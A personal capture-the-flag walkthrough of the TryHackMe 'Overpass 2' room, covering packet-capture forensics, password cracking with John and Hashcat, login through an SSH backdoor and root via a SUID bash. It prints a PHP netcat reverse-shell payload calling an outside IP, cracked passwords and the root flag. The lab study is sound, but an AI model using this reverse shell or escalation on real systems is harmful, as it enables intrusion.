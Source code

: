 
- - - 
created : 18-07-2025 

Tags : #easy #Forensics
- - - 
# Objective

Overpass has been hacked! The SOC team (Paradox, congratulations on the promotion) noticed suspicious activity on a late night shift while looking at shibes, and managed to capture packets as the attack happened.

Can you work out how the attacker got in, and hack your way back into [Overpass](./Overpass.md) production server?

Note: Although this room is a walkthrough, it expects familiarity with tools and Linux. I recommend learning basic [Wireshark](../../3%20-%20Tags/Hacking%20Tools/Wireshark.md) and completing [Linux Fundamentals](https://tryhackme.com/module/linux-fundamentals) as a bare minimum.  

md5sum of PCAP file: 11c3b2e9221865580295bc662c35c6dc

# Recon

## WireShark

First we look into the download and we have a [Wireshark](../../3%20-%20Tags/Hacking%20Tools/Wireshark.md) capture file :

![Pasted image 20250718204403.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250718204403.png)

So we have a payload and the URL .

We can also see the [Payload](../../3%20-%20Tags/Hacking%20Concepts/Payload.md) :

![Pasted image 20250718205213.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250718205213.png)

```
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

We can find the password used for escalation by searching for the string 'passw' :

![Pasted image 20250718210221.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250718210221.png)

![Pasted image 20250718210608.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250718210608.png)

A [Persistence](../../3%20-%20Tags/Hacking%20Concepts/Persistence.md) attempt :

![Pasted image 20250718210844.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250718210844.png)

We can find all the password retrieved by the attacker :

![Pasted image 20250718211408.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250718211408.png)

## John The Ripper

Now we can crack all the passwords with [JohnTheRipper](../../3%20-%20Tags/Hacking%20Tools/JohnTheRipper.md) and see how many we got with the fasttrack.txt wordlist :

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Overpass2]
└─$ john passwd /usr/share/wordlists/fasttrack.txt 
Warning: only loading hashes of type "sha512crypt", but also saw type "tripcode"
Use the "--format=tripcode" option to force loading hashes of that type instead
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 12 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst

secret12         (bee)
abcd123          (szymex)
1qaz2wsx         (muirland)
secuirty3        (paradox)
```

So we have 4 .

## Backdoor Analysis

We can now analyze the [Backdoor](../../3%20-%20Tags/Hacking%20Concepts/Backdoor.md) used as [Payload](../../3%20-%20Tags/Hacking%20Concepts/Payload.md), to do that we are going to actually download it and read it, we can find the [Hash](../../3%20-%20Tags/Hacking%20Concepts/Hash.md) of the [Backdoor](../../3%20-%20Tags/Hacking%20Concepts/Backdoor.md) :

![Pasted image 20250718212952.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250718212952.png)

In order to find the hardcoded salt we are going to have to analyze the source code. We are able to do this on the GitHub website. The piece that we are specifically looking for is going to be in the main.go portion of code :

![Pasted image 20250718213115.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250718213115.png)ù

We saw previously that the attacker used a custom hash :

![Pasted image 20250718213837.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250718213837.png) :

The salt (remember that the salt is hardcoded) is appended to the password, and [SHA512](../../3%20-%20Tags/Hacking%20Concepts/SHA512.md) of the resulting string makes the hash. To summarize, we have :
```
 SHA512(password + '1c362db832f3f864c8c2fe05f2002a05') = '6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed'
```

Now, let’s crack it with [Hashcat](../../3%20-%20Tags/Hacking%20Tools/Hashcat.md) (we’ll use the mode `1710`, which corresponds to `sha512($pass.$salt)`):

```
$ hashcat --force -m 1710 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: sha512($pass.$salt)
Hash.Target......: 6d05358f090eea56a238af02e47d44ee5489d234810ef624028...002a05
Time.Started.....: Sun Aug 16 18:44:00 2020 (2 secs)
Time.Estimated...: Sun Aug 16 18:44:02 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   149.3 kH/s (0.50ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 18432/14344385 (0.13%)
Rejected.........: 0/18432 (0.00%)
Restore.Point....: 16384/14344385 (0.11%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: christal -> tanika
```

# Hacking

Now that the incident is investigated, Paradox needs someone to take control of the Overpass production server again.

There’s flags on the box that Overpass can’t afford to lose by formatting the server!

## Website 

So the port 80 is showing this message :

![Pasted image 20250718214928.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250718214928.png)

## SSH

We can access [SSH](../../3%20-%20Tags/Hacking%20Concepts/SSH.md) with james and the cracked password on port 2222 (see payload) :

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Overpass2]
└─$ ssh james@10.10.173.247 -p 2222         
The authenticity of host '10.10.173.247 (10.10.173.247)' can't be established.
ED25519 key fingerprint is SHA256:M+alDmfQ9SPk8CLKIRe6QQD9sNcr/ptoDNbQLZDzIqs.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.173.247' (ED25519) to the list of known hosts.
root@10.10.173.247's password: 
```

tried the **password** retrieved from cracking the **SHA-512 hash** earlier with [Hashcat](../../3%20-%20Tags/Hacking%20Tools/Hashcat.md). This failed for port 22 but worked for port 2222, now we cat the user flag :

```
root@ip-10-10-50-126:~# ssh james@10.10.53.38 -p 2222
The authenticity of host '[10.10.53.38]:2222 ([10.10.53.38]:2222)' can't be established.
RSA key fingerprint is SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[10.10.53.38]:2222' (RSA) to the list of known hosts.
james@10.10.53.38's password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

james@overpass-production:/home/james/ssh-backdoor$ id
uid=1000(james) gid=1000(james) groups=1000(james),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
james@overpass-production:/home/james/ssh-backdoor$ 
```
# Privilege Escalation

In the directory of current logged user have **[.suid_bash](https://gtfobins.github.io/gtfobins/bash/#suid)** :

```
james@overpass-production:/home/james$ ls -la
total 1136
drwxr-xr-x 7 james james    4096 Jul 22  2020 .
drwxr-xr-x 7 root  root     4096 Jul 21  2020 ..
lrwxrwxrwx 1 james james       9 Jul 21  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 james james    3771 Apr  4  2018 .bashrc
drwx------ 2 james james    4096 Jul 21  2020 .cache
drwx------ 3 james james    4096 Jul 21  2020 .gnupg
drwxrwxr-x 3 james james    4096 Jul 22  2020 .local
-rw------- 1 james james      51 Jul 21  2020 .overpass
-rw-r--r-- 1 james james     807 Apr  4  2018 .profile
-rw-r--r-- 1 james james       0 Jul 21  2020 .sudo_as_admin_successful
-rwsr-sr-x 1 root  root  1113504 Jul 22  2020 .suid_bash
drwxrwxr-x 3 james james    4096 Jul 22  2020 ssh-backdoor
-rw-rw-r-- 1 james james      38 Jul 22  2020 user.txt
drwxrwxr-x 7 james james    4096 Jul 21  2020 www
```

We got root and readed the txt file

```
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# whoami
root
.suid_bash-4.4# cat /root/root.txt
thm{d53b2684f169360bb9606c333873144d}
```

Pwned !!